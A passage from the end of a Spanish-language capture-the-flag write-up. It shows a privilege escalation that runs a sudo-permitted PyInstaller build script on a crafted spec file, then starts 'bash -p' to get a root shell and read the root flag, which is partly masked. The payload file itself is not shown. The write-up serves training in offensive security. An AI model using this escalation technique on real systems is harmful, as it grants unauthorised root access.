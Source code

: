 Ahora vamos a copiarnos en `/home/tkeller/` el archivo temporal que se ha creado: `/tmp/qreader.spec`. Y ejecutamos el siguiente comando: `sudo /usr/local/sbin/build-installer.sh build prueba.spec` siendo el archivo `prueba.spec`, el *exploit*.

Output:

```
133 INFO: PyInstaller: 5.6.2
133 INFO: Python: 3.10.6
136 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
141 INFO: UPX is not available.
```

Si ejecutamos estos comandos ya podremos tener la **flag root** .

```
bin/bash -p
bash-5.1# id
uid=1001(tkeller) gid=1001(tkeller) euid=0(root) groups=1001(tkeller),1002(shared)
bash-5.1# cat /root/root.txt
99009****************************
```

![root](images/root.png)

Muchas gracias si has llegado has aquí.
